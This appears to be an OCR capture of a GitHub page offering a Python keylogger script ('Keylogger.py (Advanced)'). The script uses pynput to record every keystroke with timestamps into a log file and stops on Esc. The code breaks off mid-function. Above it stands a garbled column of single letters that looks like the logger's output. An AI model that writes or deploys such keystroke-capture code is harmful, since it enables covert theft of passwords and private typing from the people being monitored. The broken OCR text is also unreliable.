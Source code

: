 ```python
u
t
[Space]
p
u
t
[Space]
o
f
[Space]
b
a
s
i
c
[Space]
k
e
y
l
o
g
g
e
r
[Esc]
📜 Keylogger.py (Advanced)
This script logs keys with special handling for keys like Space, Enter, and Ctrl. It stops when the Esc key is pressed and logs to log.txt.

python

Copy
import logging
from pynput.keyboard import Listener, Key

# Configure logging with timestamps
logging.basicConfig(
    filename="Basic_key_log.txt",
    level=logging.INFO,
    format="%(asctime)s: %(message)s"
)

# Function to handle key press events
def on_press(key):
    try:
        letter = None
        if hasattr(key, 'char') and key.char is not None:
            letter = key.char
        else:
            if key == Key.space:
                letter = "[Space]"
            elif key == Key.enter:
                letter = "[Enter]"
            elif key == Key.backspace:
                letter = "[Backspace]"
            elif key == Key.tab:
                letter = "[Tab]"
            elif key == Key.esc:
                letter = "[Esc]"
                print("Stopping... the keyboard listener.")
                return False
            else:
```